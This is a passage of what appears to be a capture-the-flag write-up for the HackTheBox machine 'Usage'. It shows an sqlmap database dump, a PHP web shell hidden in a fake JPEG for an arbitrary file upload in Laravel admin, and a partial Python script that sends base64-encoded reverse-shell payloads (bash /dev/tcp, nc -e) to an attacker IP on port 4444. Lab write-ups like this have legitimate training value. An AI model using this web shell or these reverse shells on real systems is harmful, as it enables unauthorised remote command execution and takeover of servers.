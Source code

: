 ```perl
sqlmap -r req -p email --level 3 --batch --columns -T admin_users --dump
```
####
####
####
## First exploitation phase
### Upload file:
At the moment to enter into the website after cracking some passwords, we see a dashboard with information on installed dependencies, so we must search for possible exploits. There is a section to assign an avatar image to the **admin** user, so this could represent a possible AFU [*Arbitrary File Upload*]. 
####
The dependency that comes closest to this is: [*Encode/larabel admin 1.8.18*]. Here there a good exploit that help us to exploit this vulnerability: [CVE-2023-24249-AFU](https://flyd.uk/post/cve-2023-24249)
####
We generate an image with its corresponding headers and insert some PHP code to obtain a **cmd** into this file, so form that if we change the file extention to **php**, we will are able to execute commands in the target machine doing use the **cmd** parameter into the url. Something similar to this: http://127.0.0.1/images/malicius.jpg.php?cmd=whoami.
####
The PHP code is this `<?php system($_REQUEST['cmd']); ?>`. We will use this code to execute commands in the target machine putting the PHP code into the image file. The *PoC* image file have a `.jpg` extention and have the next header:
####
```rust
Hexadecimal ->
ffd8 ffe0 0010 4a46 4946 0001 0101 0048 0000 ffe1 0090 4578 6966 0000 

Xxd view ->
00000000: ffd8 ffe0 0010 4a46 4946 0001 0101 0048  ......JFIF.....H
00000010: 0000 ffe1 0090 4578 6966 0000            ......Exif..
```
####
<div class="tip">

> Is thime to craft our custom script the will help us to automate the php **revershell code** execution in the website throught malicius image.
</div>

####
Although we managed to insert this and use it, the website performs a scan that deletes the file, so we have to be quick
and insert the payload. Furthermore, the website doesn't interpret the one-liners even when *Url-encoding* the data, so
we'll try something different.
####
```python
import requests
from base64 import b64encode, b64decode

url = "http://admin.usage.htb/uploads/images"
fake_img_file_name = "false_image.jpg.php" -> Create the image and adjust the path

payload_1 = b"sh -i > /dev/tcp/10.10.16.6/4444 2>&1 <&1"
payload_2 = b"bash -c 'bash -i >& /dev/tcp/10.10.16.6/4444 0>&1'"
payload_3 = b"nc -e /bin/bash 10.10.16.6 4444"

request = f"echo {b64encode(payload_1).decode('utf-8')} | base64 -d | bash"
craft_url = f"{url}/{fake_img_file_name}?cmd={request}"
print(craft_url)

cookies = {
```